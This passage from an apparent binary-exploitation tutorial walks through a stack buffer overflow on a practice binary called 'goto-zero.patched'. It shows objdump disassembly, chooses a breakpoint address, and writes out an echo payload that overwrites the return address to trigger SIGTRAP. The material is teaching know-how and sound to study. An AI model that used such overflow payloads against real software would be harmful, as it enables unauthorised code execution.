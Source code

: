 Anyway, the two options for debug breakpoints are `0x401028` and `0x4011a0`. Because `objdump -D` will mindlessly output assembly on non-executable sections, go check which sections those instructions are in:

```
[...]
Disassembly of section .plt:

0000000000401020 <puts@plt-0x10>:
  401020:       ff 35 ca 2f 00 00       push   QWORD PTR [rip+0x2fca]        # 403ff0 <_GLOBAL_OFFSET_TABLE_+0x8>
  401026:       ff 25 cc 2f 00 00       jmp    QWORD PTR [rip+0x2fcc]        # 403ff8 <_GLOBAL_OFFSET_TABLE_+0x10>
  40102c:       0f 1f 40 00             nop    DWORD PTR [rax+0x0]

[...]

Disassembly of section .text:

[...]

0000000000401196 <main>:
  401196:       55                      push   rbp
  401197:       48 89 e5                mov    rbp,rsp
  40119a:       48 83 ec 40             sub    rsp,0x40
  40119e:       89 7d cc                mov    DWORD PTR [rbp-0x34],edi

[...]
```

The first is in the `.plt`, which is an executable section that is used to call external libraries (and one we'll see a little later). The second is in the `.text` section, which is where the bulk of the code is stored. Either will work perfectly fine, so let's pick the one in `main()` because it feels better to run code in `main()`. We overwrite the return address with `0x4011a0`, encoded in little endian (I should also note that because this is a 64-bit `amd64` executable (as opposed to a 32-bit `x86`), addresses are 8 bytes long:

```
$ echo -ne 'AAAAAAAAAAAAAA\n''BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO\xa0\x11\x40\x00\x00\x00\x00\x00' > test.bin

$ ./goto-zero.patched < test.bin
Enter 14 characters then press enter!
What is your name?

Good job, BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO�@fish: Job 1, './goto-zero.patched < test.bin' terminated by signal SIGTRAP (Trace or breakpoint trap)
```

Crashing with `SIGTRAP` is what we want to see! Note that your shell might show it a little differently, this is what it looks like in Bash:

```
$ ./goto-zero.patched < test.bin
Enter 14 characters then press enter!
What is your name?

Good job, BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO�@Trace/breakpoint trap (core dumped)
```
